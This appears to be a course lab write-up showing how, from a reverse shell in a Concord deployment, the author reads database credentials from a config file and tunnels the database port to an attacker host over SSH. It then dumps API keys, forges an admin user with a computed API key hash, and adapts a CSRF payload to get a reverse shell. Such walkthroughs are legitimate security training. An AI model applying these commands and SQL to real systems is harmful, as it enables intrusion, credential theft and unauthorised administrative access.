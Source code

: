 # Extra Mile 11.2.5.2

## *Using the shell, add a new user to Concord and authenticate as the new user.*

Concord works by having:

1. Server that acts as central component to manage process state and resources
2. Console UI for project and process management
3. Agent executes user processes. The agent receives workloads from the Server, and starts processes in separate Java VMs and Docker containers. 
    1. When we get a reverse shell, we are stuck in a specific Docker container that we need to break out of. 
    2. Agent Dockerfile: https://github.com/walmartlabs/concord/blob/master/docker-images/agent/oss/debian/Dockerfile
4. Database stores process state, entities and logs. 
    1. Ideally, we can get from our shell to the database for exploitation. 

## Direct Access

We can directly access the servers through the SSH credentials provided and navigating docker containers. Note that this is just for easy reference and is not part of the extra mile.

According to the Concord documentation, the databases are run and managed in a separate docker container. First, we list the running docker containers. 

```bash
sudo docker ps
```

![Untitled](Extra%20Mile%2011%202%205%202%204f92377a39d24b81b765c7d434fe23a4/Untitled.png)

We can now login to our postgres docker container. This container contains our postgres server and we can interact with the database from here. 

```bash
sudo docker exec -it aaf2393fc209 bash
```

![Untitled](Extra%20Mile%2011%202%205%202%204f92377a39d24b81b765c7d434fe23a4/Untitled%201.png)

```bash
psql -h 127.0.0.1 -p 5432 -U postgres
```

## Breaking Out

Searching for `conf` files, we find the postgres server credentials in the file `/concord.conf`. This provides the application password at the url `jdbc:postgresql://concord-db:5432/postgres` as `quake1quake2quake3arena`. 

![Untitled](Extra%20Mile%2011%202%205%202%204f92377a39d24b81b765c7d434fe23a4/Untitled%202.png)

We can thus use a reverse port forward the DB port (5432) from the database container to our kali ports and can then login using `psql` from Kali. 

```sql
ssh -vvv -N -R 1600:concord-db:5432 brtest@192.168.45.187
psql -h 127.0.0.1 -p 1600 -U postgres
quake1quake2quake3arena
```

### Database

```bash
\dt
select * from users;
```

![Untitled](Extra%20Mile%2011%202%205%202%204f92377a39d24b81b765c7d434fe23a4/Untitled%203.png)

API Key usage: [Concord | API Key (walmartlabs.com)](https://concord.walmartlabs.com/docs/api/apikey.html)

```sql
select * from api_keys FULL JOIN users on api_keys.user_id = users.user_id;
Admin api_key: KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA
```

The API keys are encrypted and thus cannot be directly used in requests. However, we can attempt to create a new administrator user and a new set of API keys to that user. To do that, we need to examine the source code to find out how API keys are generated and encrypted. 

### API Keys

We can trace the generation process for an API key to the [`APiKeyDao.java`](http://APiKeyDao.java) file in `/server/impl/src/main/java/com/walmartlabs/concord/server/security/apikey`. (found by searching `api_key` in VSCode). As such, we find the functionality to hash and generate an API key (basically using base64 on the SHA256 encoding). We thus want to mimic this functionality in Python (can use the reference credentials in next chapter, and/or manually run the Java code). Trying this, we can use the api key `abcdefghabcdefgh:C9gUfB0XR3ZeR8/VWXgWNtxUoEVioBXGMmLOGua7bpI`. The file [`hasher.java`](http://hasher.java) implements the hashing. 

```java
public UUID insert(UUID userId, String key, String name, OffsetDateTime expiredAt) {
  return txResult(tx -> tx.insertInto(API_KEYS)
    .columns(API_KEYS.USER_ID, API_KEYS.API_KEY, API_KEYS.KEY_NAME, API_KEYS.EXPIRED_AT)
    .values(userId, hash(key), name, expiredAt)
    .returning(API_KEYS.KEY_ID)
    .fetchOne()
    .getKeyId());
  }

Note that the function hash() is imported:
import static com.walmartlabs.concord.server.security.apikey.ApiKeyUtils.hash;

public static String hash(String s) {
  MessageDigest md;
  try {
    md = MessageDigest.getInstance("SHA-256");
  } catch (NoSuchAlgorithmException e) {
    throw new RuntimeException(e);
  }

  byte[] ab = Base64.getDecoder().decode(s);
  ab = md.digest(ab);

  return Base64.getEncoder().withoutPadding().encodeToString(ab);
}
```

We execute the relevant postgreSQL statements and can thus use the API key.

```sql
INSERT INTO api_keys (key_id, api_key, user_id)
VALUES ('9d045030-a474-11eb-b4ab-0242ac120000', 'C9gUfB0XR3ZeR8/VWXgWNtxUoEVioBXGMmLOGua7bpI', 'acc17a02-b471-46af-9914-48cba3dd3100');
INSERT INTO users (user_id, username, is_admin, user_type, is_disabled)
VALUES ('acc17a02-b471-46af-9914-48cba3dd3100', 'newuser', 't', 'LOCAL', 'f');

```

![Untitled](Extra%20Mile%2011%202%205%202%204f92377a39d24b81b765c7d434fe23a4/Untitled%204.png)

The Concord documentation also states that it’s possible to login with an API token by appending the `?useApiKey=true` to the login URL. Using this allows us to gain access to the web portal. (Source: [Concord | Installation using Docker Compose (walmartlabs.com)](https://concord.walmartlabs.com/docs/getting-started/install/docker-compose.html))

![Untitled](Extra%20Mile%2011%202%205%202%204f92377a39d24b81b765c7d434fe23a4/Untitled%205.png)

## *Using this newer version of Concord, change the payload and exploit the CSRF vulnerability without the permissive CORS headers*

Permissive CORS headers are not necessary for exploiting the CSRF vulnerability. 

When we try the same payload, we get the error message `Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at ‘[http://concord:8001/api/service/console/whoami’](http://concord:8001/api/service/console/whoami%E2%80%99). (Reason: Credential is not supported if the CORS header ‘Access-Control-Allow-Origin’ is ‘*’).`

What this actually means is that the CORS is no longer permissive, meaning that the exfiltration of data back to our server is no longer possible. As such, if we simply remove any callback functions to our local server and execute the `rce` function in our payload, we’ll still gain a reverse shell.

In the context of exploitation, we won’t be able to use a CSRF vulnerability to exfiltrate data but can still use the vulnerability normally.